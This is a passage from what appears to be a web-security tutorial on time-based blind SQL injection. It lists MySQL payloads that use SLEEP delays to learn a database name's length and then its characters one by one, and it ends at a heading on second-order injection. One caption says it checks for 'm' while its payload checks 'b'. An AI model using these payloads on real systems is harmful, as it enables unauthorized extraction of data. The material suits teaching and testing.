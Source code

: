 **Enumerating Characters Length of Database Name**

Based on this, let’s see how we can confirm the length of the database.

Consider the following payload, which will include a delay of five seconds if the
length of the database is equivalent to 4.

Payload:
```
'OR IF(LENGTH((SELECT DATABASE())) = 4, SLEEP(5), 0) -- -
```

checking for a Five-Character Database Name(No Delay):
```
' OR IF(LENGTH((SELECT DATABASE())) = 5, SLEEP(5), 0) —
```
Checking for a Six-Character Database Name (No Delay):
```
' OR IF(LENGTH((SELECT DATABASE())) = 6, SLEEP(5), 0) --
```
Checking for a Seven-Character Database Name (No Delay):
```
' OR IF(LENGTH((SELECT DATABASE())) = 7, SLEEP(5), 0) --
```
Checking for an Eight-Character Database Name (5-Second Delay):
```
' OR IF(LENGTH((SELECT DATABASE())) = 8, SLEEP(5), 0) --
```

**Enumerating Database Name**


Checking if the first character is “a” (No Delay):
```
' OR IF(ASCII(SUBSTRING((SELECT DATABASE()), 1, 1)) =
ASCII('a'), SLEEP(5), 0) -- -
```
Checking if the first character is “b” (No Delay):
```
' OR IF(ASCII(SUBSTRING((SELECT DATABASE()), 1, 1)) =
ASCII('b'), SLEEP(5), 0) -- -
```
Checking if the first character is “t” (5-Second Delay):
```
' OR IF(ASCII(SUBSTRING((SELECT DATABASE()), 1, 1)) =
ASCII('t'), SLEEP(5), 0) -- -
```
Checking if the second character is “m” (No delay):
```
' OR IF(ASCII(SUBSTRING((SELECT DATABASE()), 2, 1)) =
ASCII('b'), SLEEP(5), 0) -- -
```
Checking if the second character is “m” (5-Second Delay):
```
' OR IF(ASCII(SUBSTRING((SELECT DATABASE()), 2, 1)) =
ASCII('m'), SLEEP(5), 0) -- -
```

### Second-Order SQL Injection:
